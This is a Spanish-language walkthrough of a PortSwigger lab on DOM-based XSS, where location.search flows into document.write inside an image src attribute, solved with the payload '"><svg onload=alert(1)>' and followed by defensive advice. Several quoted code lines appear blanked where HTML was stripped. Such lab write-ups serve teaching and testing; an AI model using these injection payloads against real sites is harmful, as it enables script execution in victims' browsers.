

# Write-up - PortSwigger Lab 25

Voy a hacer un laboratorio de PortSwigger. El lab 25 de Cross-site scripting.

URL del laboratorio:

```text
https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Laboratorio: DOM XSS en el sink `document.write` usando como source `location.search`

Este laboratorio contiene una vulnerabilidad de cross-site scripting (XSS) basada en DOM en la funcionalidad de seguimiento de búsquedas.

Utiliza la función de JavaScript `document.write`, que escribe datos directamente en la página. La función `document.write` se llama con datos provenientes de `location.search`, que puedes controlar mediante la URL del sitio web.

Para resolver el laboratorio, realiza un ataque de cross-site scripting que invoque la función `alert`.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Objetivo principal

Llevar a cabo un DOM Based XSS. Para ello nos toca localizar la fuente y el sumidero, ver cómo interactúan e introducir un payload válido para dicho contexto.

Objetivos concretos:

- Identificar la fuente (`source`).
- Identificar el sumidero (`sink`).
- Ver en qué contexto HTML cae nuestro input.
- Romper ese contexto.
- Ejecutar `alert(1)`.

Payload final:

```html
"><svg onload=alert(1)>
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# TEORÍA DOM-BASED XSS

DOM XSS ocurre cuando JavaScript legítimo de la página toma datos controlados por el usuario y los introduce en el DOM de forma insegura.

La diferencia clave con XSS reflejado o almacenado es que el problema puede ocurrir completamente en el navegador.

En DOM XSS, el servidor puede devolver una página aparentemente normal, pero el JavaScript del frontend lee datos de una fuente controlable y los escribe en un punto peligroso.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Qué es el DOM

DOM significa `Document Object Model`.

El DOM es la representación de la página web en memoria dentro del navegador.

El HTML se convierte en una estructura tipo árbol.

Ejemplo:

```html
<p>Hola</p>
```

En el DOM sería algo como:

```text
document
 └── p
      └── "Hola"
```

JavaScript puede leer y modificar esa estructura.

Ejemplo:

```javascript
document.querySelector("p").innerHTML = "Hackeado";
```

Eso cambia la página sin tocar el servidor.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Qué significa que JavaScript confía en datos del navegador

Aquí está la clave del DOM XSS.

El servidor no tiene por qué estar implicado directamente.

Todo puede pasar así:

1. La web carga JavaScript legítimo.
2. Ese JavaScript lee datos del navegador.
3. Esos datos pueden venir de la URL.
4. El atacante controla esos datos.
5. El JavaScript los mete en el DOM sin sanear.
6. El navegador interpreta el resultado como HTML/JS.
7. Se ejecuta XSS.

Código vulnerable conceptual:

```javascript
var name = location.search;
document.write(name);
```

Si visitas:

```text
?name=Adriano
```

muestra:

```text
Adriano
```

Pero si visitas:

```text
?name=<script>alert(1)</script>
```

el navegador puede escribir el script en la página y ejecutarlo.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Diferencia clave con otros XSS

| Tipo | Dónde ocurre principalmente |
|---|---|
| Reflejado | Servidor |
| Almacenado | Servidor |
| DOM XSS | Navegador |

En DOM XSS:

```text
El problema está en el JavaScript del frontend.
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# SOURCE y SINK

## SOURCE

La fuente (`source`) es de dónde sale el dato controlado por el atacante.

Fuentes comunes:

```javascript
location.search
location.hash
location.pathname
document.referrer
window.name
localStorage
sessionStorage
postMessage
```

En este laboratorio la fuente es:

```javascript
window.location.search
```

Más concretamente:

```javascript
(new URLSearchParams(window.location.search)).get('search')
```

Eso lee el parámetro `search` de la URL.

## SINK

El sumidero (`sink`) es dónde se usa ese dato de forma peligrosa.

Sinks comunes de ejecución JavaScript:

```javascript
eval()
setTimeout()
setInterval()
Function()
```

Sinks comunes de modificación de HTML:

```javascript
innerHTML
outerHTML
document.write()
insertAdjacentHTML()
```

En este laboratorio el sink es:

```javascript
document.write()
```

Frase clave:

```text
SOURCE = entrada.
SINK = uso peligroso.
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Ejemplo técnico de `document.write`

Código vulnerable:

```javascript
var pos = document.URL.indexOf("name=");
var name = document.URL.substring(pos + 5);
document.write("Hola, " + name);
```

URL normal:

```text
https://web.com/page.html?name=Adriano
```

Salida:

```text
Hola, Adriano
```

URL maliciosa:

```text
https://web.com/page.html?name=<script>alert(1)</script>
```

Salida generada:

```html
Hola, <script>alert(1)</script>
```

El navegador ejecuta el script.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Metodología de detección manual

1. Introducir una cadena única en una fuente posible, por ejemplo `pepe1`.
2. Usar el inspector de elementos, no solo `Ctrl+U`.
3. Buscar la cadena en el DOM.
4. Identificar el contexto exacto.
5. Entender si está dentro de HTML, dentro de un atributo, dentro de JavaScript, etc.
6. Construir el payload según ese contexto.

Esto es importante porque en DOM XSS muchas veces el HTML original no contiene el resultado final. El DOM sí lo contiene, porque JavaScript lo ha generado después.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Idea mental fundamental

Dos líneas:

```javascript
var name = location.search;
document.write(name);
```

Línea 1:

```javascript
var name = location.search;
```

significa:

```text
Coge lo que hay en la URL.
```

Línea 2:

```javascript
document.write(name);
```

significa:

```text
Escribe eso en la página tal cual.
```

La web hace:

```text
Coge lo que tú pones en la URL y lo mete en la página.
```

Si lo mete en HTML sin control, puedes meter código.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Vamos a llevar a cabo esto de forma práctica

Le damos a empezar laboratorio y se nos abre la siguiente página web:

```text
https://0a3400ea046eb37c80190376000c00d9.web-security-academy.net/
```

La página web tiene el aspecto de la imagen 1, es un blog con fotos.


**Referencia a la imagen 1:** Página inicial del laboratorio. Se observa el buscador del blog, que será el punto de entrada para controlar `location.search`.

Una vez dentro, abrimos BurpSuitePro y en el navegador activamos FoxyProxy para que en el HTTP History vayan apareciendo las distintas requests mientras navegamos por la página.

Como ya nos dice el laboratorio, contiene una vulnerabilidad de XSS basada en DOM en la funcionalidad de seguimiento de búsquedas.

Utiliza `document.write`, que escribe datos directamente en la página. La función `document.write` se llama con datos provenientes de `location.search`, que podemos controlar mediante la URL.

Para resolverlo necesitamos ejecutar `alert()`.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Primer test: búsqueda normal

Si buscamos:

```text
pepe1
```

nos muestra:

```text
0 search results for 'pepe1'
```

Esto nos dice que el parámetro `search` afecta al contenido de la página.

Pero aquí el punto importante no es solo el `<h1>` de resultados. El punto importante es el código JavaScript que toma el parámetro de la URL y lo mete en el DOM.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Inspección del código fuente

Inspeccionamos con `Ctrl+U` y vemos este bloque:

```html
<section class=blog-header>
    <h1>0 search results for 'pepe1'</h1>
    <hr>
</section>
<section class=search>
    <form action=/ method=GET>
        <input type=text placeholder='Search the blog...' name=search>
        <button type=submit class=button>Search</button>
    </form>
</section>
<script>
    function trackSearch(query) {
        document.write('');
    }
    var query = (new URLSearchParams(window.location.search)).get('search');
    if(query) {
        trackSearch(query);
    }
</script>
```

Código clave:

```javascript
function trackSearch(query) {
  document.write('');
}

var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
  trackSearch(query);
}
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Identificar la fuente

La fuente es:

```javascript
window.location.search
```

Más concreto:

```javascript
(new URLSearchParams(window.location.search)).get('search')
```

Esto extrae:

```text
?search=pepe1
```

y asigna:

```javascript
query = "pepe1"
```

Por tanto:

```text
SOURCE = location.search
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Identificar el sumidero

El sumidero es:

```javascript
document.write(...)
```

Punto exacto:

```javascript
document.write('');
```

Esto es peligroso porque escribe HTML directamente en la página usando `query`.

Por tanto:

```text
SINK = document.write
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Duda importante: ¿el `` es el sink?

Al inspeccionar el DOM y buscar `pepe1`, aparecen dos sitios:

```html
<h1>0 search results for 'pepe1'</h1>

```

Pregunta:

```text
¿Cuál de esos dos es source y cuál es sink?
```

Respuesta directa:

```text
SOURCE = window.location.search
SINK = document.write()
```

El `` no es el sink.

El `` es el resultado del sink.

Tabla clara:

| Elemento | Qué es |
|---|---|
| `window.location.search` | SOURCE |
| `(new URLSearchParams(...)).get('search')` | extracción del dato |
| `document.write()` | SINK |
| `` | resultado generado en el DOM |

No hay que buscar “qué HTML es el sink”. Hay que buscar qué JavaScript mete tu input en el HTML.

Frase clave:

```text
No busques HTML. Busca qué JavaScript mete tu input en el HTML.
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Imagen del DOM

En la imagen 2 vemos el contexto completo, con el script y el resultado generado:



**Referencia a la imagen 2:** Se observa el script `trackSearch(query)` con `document.write`, y debajo el resultado generado en el DOM: ``.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Flujo completo

Tú controlas la URL:

```text
?search=pepe1
```

JavaScript lee la URL:

```javascript
query = "pepe1"
```

JavaScript usa el dato aquí:

```javascript
document.write(...)
```

Se genera esto:

```html

```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Dónde está la vulnerabilidad

La vulnerabilidad está aquí:

```javascript
document.write('');
```

Porque `query` no se limpia.

Además, se inserta dentro de un atributo HTML:

```html

```

Concretamente dentro de:

```text
src="..."
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Por qué `<script>alert(1)</script>` no es la mejor opción

Si metemos:

```html
<script>alert(1)</script>
```

el resultado sería algo como:

```html
alert(1)</script>">
```

Eso queda dentro del atributo `src`.

El navegador lo interpreta como parte de la URL de la imagen.

No como una etiqueta script ejecutable.

Por tanto, no basta con meter `<script>`.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Solución: romper el contexto

Estamos encerrados dentro de:

```html
src="..."
```

Tenemos que salir del atributo.

Payload para cerrar el atributo:

```text
">
```

Después inyectamos HTML real.

Payload completo:

```html
"><svg onload=alert(1)>
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Resultado HTML conceptual

El código vulnerable genera:

```html
<svg onload=alert(1)>">
```

Lo importante es que el `<svg>` ya queda fuera del atributo `src`.

Ahora es HTML real.

El evento `onload` se ejecuta cuando carga el SVG.

Entonces se ejecuta:

```javascript
alert(1)
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Por qué funciona `<svg onload=alert(1)>`

`<svg>` es una etiqueta válida.

`onload` es un manejador de eventos.

Cuando el elemento se carga, ejecuta el JavaScript asociado.

Por eso:

```html
<svg onload=alert(1)>
```

dispara el popup.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Resumen brutal del contexto

```text
SOURCE   -> location.search
SINK     -> document.write
CONTEXTO -> atributo src=""
PROBLEMA -> tu input está encerrado
SOLUCIÓN -> romper contexto con ">
PAYLOAD  -> "><svg onload=alert(1)>
```

Frase clave:

```text
XSS no es meter <script>. XSS es entender en qué contexto estás y salir de él.
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Explotación práctica

Inyectamos:

```html
"><svg onload=alert(1)>
```

El navegador lanza el popup de la imagen 3.


**Referencia a la imagen 3:** Popup generado por `alert(1)` tras explotar el DOM XSS con el payload `"><svg onload=alert(1)>`.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Laboratorio resuelto

Después de ejecutar el payload, el laboratorio aparece como resuelto.

Esto se ve en la imagen 4.


**Referencia a la imagen 4:** Banner de PortSwigger indicando que el laboratorio está resuelto.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Resumen técnico final

Código vulnerable:

```javascript
function trackSearch(query) {
  document.write('');
}

var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
  trackSearch(query);
}
```

Identificación:

```text
SOURCE = window.location.search
SINK = document.write()
```

El dato `search` cae en:

```html

```

Contexto:

```text
atributo HTML src=""
```

Payload incorrecto típico:

```html
<script>alert(1)</script>
```

Motivo:

```text
queda atrapado dentro del atributo src
```

Payload correcto:

```html
"><svg onload=alert(1)>
```

Motivo:

```text
cierra el atributo y crea HTML ejecutable
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Defensa correcta

La aplicación no debería usar `document.write` con datos controlados por el usuario.

Defensas recomendadas:

1. Evitar `document.write`.
2. No construir HTML concatenando strings con input de usuario.
3. Usar APIs seguras como `textContent`.
4. Codificar el dato según el contexto.
5. Validar y sanear valores antes de insertarlos.
6. Si se necesita crear un atributo, usar `setAttribute` con validación estricta.
7. Aplicar Content Security Policy como defensa adicional.

Ejemplo más seguro:

```javascript
const img = document.createElement('img');
img.src = '/resources/images/tracker.gif?searchTerms=' + encodeURIComponent(query);
document.body.appendChild(img);
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Conclusión

Este laboratorio demuestra un DOM XSS donde:

```text
la source es location.search
```

y:

```text
el sink es document.write
```

El input controlado por el usuario se introduce dentro del atributo `src` de una imagen.

Por eso no basta con meter `<script>`.

Hay que romper el atributo con:

```html
">
```

y después introducir un elemento que ejecute JavaScript:

```html
<svg onload=alert(1)>
```

Payload final:

```html
"><svg onload=alert(1)>
```

**Laboratorio resuelto.**
